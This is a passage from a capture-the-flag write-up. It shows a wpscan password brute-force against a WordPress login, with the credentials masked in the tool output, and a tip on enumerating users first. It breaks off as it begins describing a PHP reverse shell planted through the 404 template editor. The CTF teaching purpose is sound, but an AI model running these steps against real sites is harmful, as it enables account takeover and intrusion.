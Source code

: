 Same principe, as we have a list of potential usernames, let's make use of it.

````commandline
wpscan --url http://$IP_TARGET -U usernames.txt -P /usr/share/wordlists/rockyou.txt
````

After something like 15 minutes, `wpscan` found the password for user *****. So I stopped this brute force attack as this is a CTF and most of the time, this is about one low privilege user account we need to attack. Can run it again later if needed.

````commandline
[+] Performing password attack on Wp Login against 6 user/s
[SUCCESS] - ***** / **********                                                                                                                                                                                                                                                                                               
^Cying hugo / roberta Time: 00:17:06 <   > (10548 / 86067575)  0.01%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: *****, Password: **********

[!] No WPScan API Token given, as a result vulnerability data has not been output.         > (10554 / 86067575)  0.01%  ETA: ??:??:??
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Aug 28 23:23:38 2021
[+] Requests Done: 10694
[+] Cached Requests: 38
[+] Data Sent: 4.989 MB
[+] Data Received: 38.521 MB
[+] Memory used: 272.586 MB
[+] Elapsed time: 00:17:11

Scan Aborted: Canceled by User
````

**GOLDEN TIP:**

In fact, what I have done is very useless to bruteforce the `WordPress` site for different users. Instead of brute forcing with a user list, I should have enumerated this site, manually or with the `-e` on `wpscan` (check out the `wpscan --help`), to find the different users. `WordPress` websites use authors for the posts. And that are the actual users on that website. Could have saved time.

## Installing a reverse shell in WordPress

Once logged in, we can make use of the `WordPress` fancy `404 Template` features which allows embedding PHP code. `WordPress` is so insecure by allowing this by default. So this is easy, we can make use of this to embed our `PHP` web shell in that template.

For this in `Appearance` > `Editor`. Then click on the `404 templates`.
